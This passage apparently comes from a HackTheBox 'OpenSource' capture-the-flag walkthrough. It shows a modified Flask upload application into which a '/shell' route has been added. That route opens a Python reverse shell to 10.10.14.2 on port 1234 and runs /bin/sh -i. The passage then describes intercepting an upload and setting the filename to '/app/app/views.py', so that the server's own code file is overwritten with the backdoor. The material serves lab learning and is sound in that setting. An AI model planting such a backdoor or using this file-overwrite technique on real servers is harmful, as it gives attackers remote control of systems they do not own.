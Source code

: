 ```python
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/shell')
def get_shell():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    return p  
```

Then, intercept the upload to the server and used filename="/app/app/views.py" so it replaces the actual file

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/5_0_uploaded.png" width="90%"/>
</p>
